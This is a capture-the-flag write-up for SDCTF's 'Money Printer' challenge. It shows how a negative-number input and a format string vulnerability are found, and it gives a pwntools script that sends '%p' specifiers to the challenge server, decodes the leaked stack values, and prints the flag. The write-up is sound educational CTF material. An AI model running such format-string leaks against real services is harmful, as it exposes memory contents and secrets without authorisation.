

# Money Printer



Upon connecting to the service and entering random input:


Let's try entering a number:


Looks like if we enter negative numbers the server "gains" money. What if I enter a larger number:


Cool, looks like we got to this point. After playing around with this prompt for a while we can see there is a format string vulnerability.


Using this, we can use %p to leak data off of the stack. I did not decompile the binary but I will assume the flag has been loaded into memory and is lying somewhere on the stack.

Using the format specifier `%p`, I can print each individual value off the stack. The catch is that the endianness is swapped and the data is in hex.

I can write a simple script to take in this data and convert it to get the flag:

```py
from pwn import *

r = remote("money.sdc.tf", 1337)

print(r.recvuntil(b'want?\n'))

r.sendline(b"-1")

print(r.recvuntil(b"?\n"))

r.sendline(b"%p "*18)

var = r.recvuntil(b'\n')
r.close()

arr = [x[2:] if len(x) > 3 else x for x in var.split()]

sol = ""

for x in arr:
    if len(x)%2==0:
        localsol = ""
        for i in range(0, len(x), 2):
            localsol += chr(int(x[i:i+2], 16))
        sol+=localsol[::-1]

print(sol[sol.index('sdctf'):])
```

```
┌──(kali㉿kali)-[~/ctf/sdctf]
└─$ python3 moneyprinter.py
[+] Opening connection to money.sdc.tf on port 1337: Done
b'I have 100 dollars, how many of them do you want?\n'
b"you can have -1 dollars!\nwow you've printed money out of thin air, you have 4294967295!!! Is there anything you would like to say to the audience?\n"
[*] Closed connection to money.sdc.tf port 1337
sdctf{d4mn_y0u_f0unD_4_Cr4zY_4M0uN7_0f_M0n3y%p %p %p %p %p %p %p %p
```

Flag: `sdctf{d4mn_y0u_f0unD_4_Cr4zY_4M0uN7_0f_M0n3y}`
